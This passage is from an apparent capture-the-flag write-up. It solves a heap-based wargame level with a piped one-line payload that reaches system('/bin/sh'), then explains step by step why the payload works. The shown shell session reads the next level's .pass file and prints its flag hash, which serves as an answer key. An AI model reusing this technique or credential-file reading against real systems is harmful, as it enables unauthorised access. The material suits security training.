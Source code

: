 **Unexpected Result:**
```
(nil), (nil) 
0x804a008, (nil) 
0x804a008, 0x804a018 
0x804a008, 0x804a018 
0x804a008, 0x804a018 
```

**No "Password:" output!** The program just exits silently - this is different from all previous attempts.

### Testing with Interactive Input
```bash
(echo "auth "; echo "service12345678901234567890123456789012"; echo "login"; cat) | ./level8
```

**SUCCESS!**
```
whoami
level9
cat /home/user/level9/.pass  
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

## Step 9: Understanding Why It Works

### The Magic Payload Breakdown
```bash
(echo "auth "; echo "service12345678901234567890123456789012"; echo "login"; cat) | ./level8
```

**Component Analysis:**

#### 1. `auth ` (with space, no username)
- Allocates 4-byte buffer at 0x804a008
- Copies empty string (just null terminator)
- Creates minimal heap footprint

#### 2. `service12345678901234567890123456789012` (40 characters)
- `strdup()` allocates memory for 40-char string + null terminator
- The allocation is large enough that its data extends into memory ranges
- **Critical**: The string content reaches the memory offset that login checks

#### 3. `login`
- Checks memory at `auth + 32` (0x804a008 + 0x20 = 0x804a028)
- Finds non-zero data from the service string allocation
- **SUCCESS**: Condition passes → `system("/bin/sh")` executes

#### 4. `cat`
- Keeps the shell session open for interaction
- Without this, the shell would spawn and immediately exit

